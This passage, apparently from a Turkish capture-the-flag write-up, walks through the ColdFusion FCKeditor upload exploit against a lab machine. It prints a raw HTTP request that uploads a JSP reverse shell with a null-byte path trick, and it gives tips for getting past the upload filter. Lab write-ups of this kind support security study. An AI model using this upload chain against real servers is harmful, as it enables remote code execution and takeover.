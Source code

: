 Bu, **nispeten basit bir exploit**—yalnızca iki **HTTP isteği** gönderiyor.

İlk olarak, **FCKEDITOR_DIR**'e bir **POST isteği** yapıyor. Bu dizin, script'in önceki bölümünde **varsayılan olarak** `/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm` olarak tanımlanmış.

Ardından, **payload'ı tetiklemek** için **/userfiles/file/** yoluna bir **GET isteği** gönderiyor.

#### Upload Reverse Shell

Bu exploit'i curl ile yeniden oluşturabilirim:

![Pasted image 20250209192803.png](/img/user/resimler/Pasted%20image%2020250209192803.png)

Bu işlem tamamlandığında, root'ta yeni bir klasör oluşur:

![Pasted image 20250209192818.png](/img/user/resimler/Pasted%20image%2020250209192818.png)

Ancak, **/userfiles/file/** içinde herhangi bir dosya yok. Muhtemelen bir **filter** tarafından engellendim.

![Pasted image 20250209193115.png](/img/user/resimler/Pasted%20image%2020250209193115.png)


Gönderdiğim **request** şu şekilde görünüyor:


```
POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/df.jsp%00 HTTP/1.1
Host: 10.10.10.11:8500
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 1700
Content-Type: multipart/form-data; boundary=------------------------2cf8346e8d23a757
Expect: 100-continue
Connection: close

--------------------------2cf8346e8d23a757
Content-Disposition: form-data; name="newfile"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>
...[snip]...
```

Bu **upload** işlemini çalıştırmak için ayarlamam gereken iki şey var ve her ikisi de **MSF exploit'inde** tanımlı.

İlk olarak, **dosya adı** **.jsp** ile bitmemeli, çünkü bu filtreleniyor. **MSF script'i**, **.txt** uzantısını kullanıyor, bu yüzden **payload'ımın bir kopyasını** `shell.txt` olarak oluşturacağım.

Ayrıca, **MSF script'i**, dosyanın **Content-Type** değerini **application/x-java-archive** olarak ayarlıyor.
